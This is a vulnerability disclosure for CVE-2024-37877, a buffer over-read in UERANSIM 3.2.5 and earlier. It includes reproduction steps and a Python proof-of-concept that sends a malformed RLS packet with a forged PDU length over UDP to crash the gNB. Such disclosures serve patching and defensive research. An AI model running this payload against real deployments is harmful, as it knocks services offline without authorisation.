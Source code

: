## CVE-2024-37877: Buffer Over-read in readOctetString of UERANSIM versions 3.2.5 and below

A buffer over-read vulnerability in `readOctetString` function in `src/utils/octet_view.cpp` in UERANSIM versions 3.2.5 and below allows a remote attacker to cause denial of service by sending a RLS packet with malformed PDU Length.

### Steps to reproduce:

i) Build and setup UERANSIM (before commit b68de9b) following the installation guide from the wiki (https://github.com/aligungr/UERANSIM/wiki/Installation).

ii) Adjust the appropriate values and execute the following python script.

```python
import socket

GNB_HOST = '127.0.0.1'
GNB_PORT = 4997
RLS_VERSION = b'\x03\x02\x06'

rls_sti = b'\x48\x5a\x86\x7a\x58\xf9\xba\xd4'
rls_pduType = b'\x01'
rls_rrcMsgType = b'\x00\x00\x00\x00\x00\x00\x00\x01'

# PDU Length = 20871
rls_pduLength = b'\x00\x00\x51\x87'

def poc(packet, ip, port):
    udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

    try:
        udp_socket.sendto(packet, (ip, port))
        print('Payload sent successfully')
    except Exception as e:
        print('Error:', e)
    finally:
        udp_socket.close()

if __name__ == '__main__':
	# Packet is RLS
    payload = b'\x03'
	payload += RLS_VERSION
	
    # msgType is PDU_TRANSMISSION
    payload += b'\x06'
	payload += rls_sti
	payload += rls_pduType
	payload += rls_rrcMsgType
	payload += rls_pduLength

	poc(payload, GNB_HOST, GNB_PORT)
```
